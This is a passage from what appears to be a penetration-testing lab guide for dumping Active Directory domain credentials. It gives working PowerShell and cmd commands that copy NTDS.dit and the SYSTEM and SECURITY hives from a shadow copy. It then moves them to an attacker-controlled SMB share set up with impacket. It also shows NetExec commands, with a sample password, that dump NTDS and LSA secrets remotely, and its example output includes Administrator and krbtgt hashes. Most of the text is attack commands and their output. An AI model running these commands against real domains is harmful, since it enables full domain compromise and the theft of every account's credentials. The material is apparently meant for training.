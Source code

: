 #### Step 4: Copy NTDS.dit and SYSTEM
```powershell
# Create destination directory
mkdir C:\temp

# Copy NTDS.dit from shadow copy
cmd.exe /c copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit" C:\temp\NTDS.dit

# Copy SYSTEM registry hive (needed for decryption)
cmd.exe /c copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM" C:\temp\SYSTEM

# Copy SECURITY hive (for additional secrets)
cmd.exe /c copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SECURITY" C:\temp\SECURITY
```

#### Step 5: Transfer Files to Attack Host
```bash
# On attack host - setup SMB server
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /tmp/

# On target DC - transfer files
cmd.exe /c move C:\temp\NTDS.dit \\10.10.15.30\CompData
cmd.exe /c move C:\temp\SYSTEM \\10.10.15.30\CompData
cmd.exe /c move C:\temp\SECURITY \\10.10.15.30\CompData
```

### Method 2: NetExec ntdsutil Module (One Command!)

#### Remote NTDS.dit Extraction
```bash
# Extract NTDS.dit remotely using NetExec
netexec smb 10.129.201.57 -u jmarston -p Password123! -M ntdsutil

# Expected output:
# NTDSUTIL   10.129.201.57   445   DC01   [*] Dumping ntds with ntdsutil.exe
# NTDSUTIL   10.129.201.57   445   DC01   [+] NTDS.dit dumped to C:\Windows\Temp\174556000
# NTDSUTIL   10.129.201.57   445   DC01   [*] Copying NTDS dump to /tmp/tmpcw5zqy5r
# NTDSUTIL   10.129.201.57   445   DC01   Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
# NTDSUTIL   10.129.201.57   445   DC01   Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# NTDSUTIL   10.129.201.57   445   DC01   krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
```

#### Alternative NetExec Methods
```bash
# Just dump hashes without file transfer
netexec smb 10.129.201.57 -u jmarston -p Password123! --ntds

# Dump LSA secrets too
netexec smb 10.129.201.57 -u jmarston -p Password123! --ntds --lsa

# Save to specific output file
netexec smb 10.129.201.57 -u jmarston -p Password123! --ntds --outputfile ntds_dump
```
